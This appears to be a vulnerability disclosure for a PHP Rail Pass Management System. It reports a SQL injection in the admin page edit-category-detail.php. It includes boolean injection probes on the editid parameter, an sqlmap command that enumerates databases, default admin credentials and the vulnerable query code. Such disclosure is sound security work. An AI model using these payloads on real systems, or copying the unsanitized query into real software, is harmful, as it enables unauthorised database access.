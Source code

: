 # [Rail Pass Management System-SQL Injection-edit-category-detail.php]

## Basic Information

**[Bug Reporter]:**DiliLearngent

**[Application Vendors]:**`https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/`

**[Test Environment]:**windows10+apache+php5.6+mysql5.5

**[Install]:**

1. Download the zip file

2. Extract the file and copy `rpms` folder

3. Paste inside root directory(for xampp xampp/htdocs, for wamp wamp/www, for lamp var/www/HTML)

4. Open PHPMyAdmin (http://localhost/phpmyadmin)

5. Create a database with the name `rpmsdb`

6. Import `rpmsdb.sql` file(given inside the zip package in the SQL file folder)

7. Run the script `http://localhost/rpms`

**Credential for Admin panel :**

**Username:** admin
**Password:** Test@123

## Bug Information

**[Vulnerability type]:**SQL Injection

**[Vulnerability Url]:**`http://localhost/rpms/admin/edit-category-detail.php?editid=13`    

**[Vulnerability Location]:**rpms/admin/edit-category-detail.php

**[Vulnerability Test]:**

1. When you enter `13%20and%201=1` in the `editid` parameter, the page displays as follows:

   ![](../../img/20230427155036.png)

   

2. When you enter `13%20and%201=2` in the `editid` parameter, the page displays as follows:

   ![](../../img/20230427155212.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/rpms/admin/edit-category-detail.php?editid=13" --cookie="PHPSESSID=4acbjc61q1opnkih7qmkd6g9t7" --dbs --batch
   ```

   ![](../../img/20230427162644.png)

**[code analysis]:**

rpms/admin/edit-category-detail.php

```php
<?php
$eid=$_GET['editid'];
$sql="SELECT * from  tblcategory where ID=$eid";
$query = $dbh -> prepare($sql);
$query->execute();
$results=$query->fetchAll(PDO::FETCH_OBJ);
$cnt=1;
if($query->rowCount() > 0)
{
foreach($results as $row)
{               ?>
```

The GET parameter `editid` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.